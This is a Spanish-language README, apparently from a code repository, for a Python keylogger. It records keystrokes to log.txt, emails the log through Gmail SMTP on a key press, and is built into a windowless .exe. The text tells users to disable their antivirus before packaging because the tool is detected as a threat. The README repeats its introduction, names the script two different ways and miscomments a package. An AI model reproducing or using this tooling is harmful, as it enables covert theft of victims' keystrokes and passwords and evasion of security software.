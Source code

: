 # 🖥️ KeyLogger en Python  

Este es un **KeyLogger** desarrollado en Python que registra las teclas presionadas y las guarda en un archivo `log.txt`. Además, permite enviar el registro por correo electrónico presionando `F11` y cerrar el programa con la tecla `ESC`.  

## 📌 Instalación de Dependencias en Python

Antes de ejecutar el keylogger, asegúrate de instalar las bibliotecas necesarias.

## 📌 Requisitos

🔹 Python 3.x instalado en tu sistema.
🔹 Conexión a Internet para descargar las dependencias.

## 🚀 Instalación de Dependencias

### 1️⃣ Instalar `pynput` para Captura de Teclado

El módulo `pynput` permite registrar las teclas presionadas en el sistema. Instálalo con:

```bash
pip install pynput
```

### 2️⃣ Instalar `smtplib` y `email` para Envío de Correos

El módulo `smtplib` ya está incluido en Python, pero `email` se usa para estructurar los mensajes de correo. Se recomienda actualizar `email` con:

```bash
pip install secure-smtplib
```

### 3️⃣ Verificar Instalación

Después de instalar las dependencias, verifica que se hayan instalado correctamente ejecutando:

## ✉️ Configuración del Correo

Abre el archivo y reemplaza los siguientes valores con tu información:

Como configurar el email para que puedas enviar correos: Link de Youtube[https://www.youtube.com/shorts/Tuyai2xNwvE]
```python
mensaje["From"] = "tucorreo@gmail.com"
mensaje["To"] = "destinatario@gmail.com"
server.login("tucorreo@gmail.com", "tu_contraseña")
server.sendmail("tucorreo@gmail.com", "destinatario@gmail.com", mensaje.as_string().encode('utf-8'))
```

🔹 **Usa una contraseña de aplicación en lugar de tu contraseña real para mayor seguridad.**

# 🖥️ KeyLogger en Python  

Este es un **KeyLogger** desarrollado en Python que registra las teclas presionadas y las guarda en un archivo `log.txt`. Además, permite enviar el registro por correo electrónico presionando `F11` y cerrar el programa con la tecla `ESC`.  

---

## 🚀 1️⃣ Inicio del KeyLogger  
Para ejecutar el KeyLogger, abre la terminal y ejecuta:  

```bash
python KeyLogger_Mail.py
```

Al iniciarse, mostrará el siguiente mensaje en la terminal:  

```
(+) Se inició el KeyLogger
```

![Inicio del KeyLogger](./img_heylogger/start.png)

---

## ⏹️ 2️⃣ Cerrar el KeyLogger  
Para **detener la ejecución**, simplemente presiona la tecla `ESC`. Esto cerrará el programa inmediatamente.  

![Cerrar KeyLogger con ESC](./img_heylogger/prueba.png)

---

## 📩 3️⃣ Enviar el registro por correo  
Si presionas la tecla `F11`, el KeyLogger **enviará el archivo `log.txt` a través de un correo electrónico**.  

![Correo recibido con log.txt](./img_heylogger/email.png)

---

![Correo recibido con log.txt](./img_heylogger/prueba_email.png)

# 🛠️ Crear un Archivo Ejecutable (.exe) con PyInstaller

Para convertir el script en un archivo ejecutable `.exe`, es necesario utilizar `pyinstaller`. Antes de proceder, **desactiva tu antivirus**, ya que podría detectar el keylogger como una amenaza y eliminarlo.

🔹 Instalar pyinstaller

```bash
pip install pyinstaller
```

### 🚨 Desactivar Antivirus

🔹 Desactiva temporalmente la protección en tiempo real de tu antivirus antes de ejecutar el siguiente comando puede saltar un error asi.

![Desactivar Antivirus](./img_heylogger/keylogger_antivirus.png)

### 🔹 Generar el Archivo .exe

Ejecuta el siguiente comando en la terminal dentro de la carpeta donde se encuentra `KeyLogger_Mail.py`:

```bash
pyinstaller --onefile --noconsole keylogger.py
